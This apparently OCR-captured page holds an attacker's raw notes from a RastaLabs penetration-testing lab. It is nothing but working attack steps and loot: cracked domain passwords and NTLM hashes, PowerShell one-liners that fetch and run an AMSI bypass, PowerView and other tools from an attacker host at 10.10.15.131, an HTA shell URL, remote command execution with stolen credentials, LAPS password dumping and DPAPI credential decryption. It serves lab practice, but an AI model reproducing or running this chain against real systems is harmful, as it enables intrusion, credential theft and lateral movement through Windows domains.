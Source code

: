 RLAB\AHope : Summer2022
RLAB\NGodfrey : zaq123$%^&*()_+
http://10.10.15.131/shell.hta

iex(iwr 10.10.15.131/amsi.txt -usebasicparsing);iex(iwr 10.10.15.131/PowerView.ps1 -usebasicparsing)
iex(iwr 10.10.15.131/amsi.txt -usebasicparsing);iex(iwr 10.10.15.131/PowerUpSQL.ps1 -usebasicparsing)
iex(iwr 10.10.15.131/kt.ps1);iex(iwr 10.10.15.131/kpc.ps1)

$secpassword = convertto-securestring "zaq123$%^&*()_+" -asplaintext -force
$cred = new-object system.management.automation.pscredential('RLAB\ngodfrey', $secpassword)
invoke-command -computername ws05.rastalabs.local -credential $cred -scriptblock {ipconfig}
invoke-command -session $sess -scriptblock {

ngodfrey_adm : J5KCwKruINyCJBKd1dZU

$secpassword = convertto-securestring "J5KCwKruINyCJBKd1dZU" -asplaintext -force;$cred = new-object system.management.automation.pscredential('RLAB\ngodfrey_adm', $secpassword)
Get-DomainObject -Identity ws01,ws02,ws03,ws04,ws05,ws06 -credential $cred|select name,ms-mcs-admpwd
WS01 mtU1l18l        
WS02 bPhQ2DQN                
WS03 iZkiX2A7            
WS04 5oPoIKGF                
WS05 UbX0W660            
WS06 bWWHN5Sv 

$secpassword = convertto-securestring "0S86gmbr" -asplaintext -force
$cred = new-object system.management.automation.pscredential('ws01\administrator', $secpassword)
invoke-command -computername ws01 -credential $cred -scriptblock {ipconfig}

epugh 326457b72c3f136d80d99bdbb935d109 Sarah2017
epugh_adm IReallyH8LongPasswords!
tquinn 74b0ecaa5aafed9d630b5d71ca7fdaaa

rweston_da 3ff61fa259deee15e4042159d7b832fa

dpapi::cred /in:c:\users\epugh\appdata\local\microsoft\credentials\936A68B5AC87C545C4A22D1AF264C8E9 /masterkey:40fc84e4d4f44f01c8d4fb8dccc8da37bbada94ecb374e813c46b03e0cd35fd4d285b5826a411fc6d3cf382d4f3aa6010ea3cae8a8a11fd4b375908e6ca17067

$secpassword = convertto-securestring "Sarah2017" -asplaintext -force;$cred = new-object system.management.automation.pscredential('RLAB\epugh', $secpassword)

$secpassword = convertto-securestring "IReallyH8LongPasswords!" -asplaintext -force;$cred = new-object system.management.automation.pscredential('RLAB\epugh_adm', $secpassword)

Get-ChildItem -Recurse -File | where { Select-String -Path $_ -List -Pattern "RASTA{" }